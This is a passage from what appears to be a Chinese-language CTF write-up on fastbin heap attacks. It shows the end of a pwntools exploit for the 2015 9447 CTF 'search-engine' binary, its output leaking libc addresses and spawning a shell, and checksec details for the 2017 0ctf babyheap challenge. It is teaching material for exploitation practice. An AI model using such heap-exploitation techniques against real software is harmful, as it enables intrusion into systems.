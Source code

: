 ```python
    #gdb.attach(p)
    index_sentence(payload)
    p.interactive()
```

这里可能需要多选择几个 one_gadget 地址，因为 one_gadget 成功是有条件的。

#### shell

```shell
➜  2015_9447ctf_search-engine git:(master) python exp.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './search': pid 31158
[*] PID: 31158
[+] unsortedbin addr: 0x7f802e73bb78
[+] libc base addr: 0x7f802e377000
[*] Switching to interactive mode
Enter the sentence:
$ ls
exp.py       search      search.id1  search.nam
libc.so.6  search.id0  search.id2  search.til
```

当然，这里还有一种[方法](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)，将 chunk 分配到栈上。

## 2017 0ctf babyheap
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2017_0ctf_babyheap)

### 基本信息

```shell
➜  2017_0ctf_babyheap git:(master) file babyheap
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9e5bfa980355d6158a76acacb7bda01f4e3fc1c2, stripped
➜  2017_0ctf_babyheap git:(master) checksec babyheap
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2017_0ctf_babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

64位程序，保护全部开启。
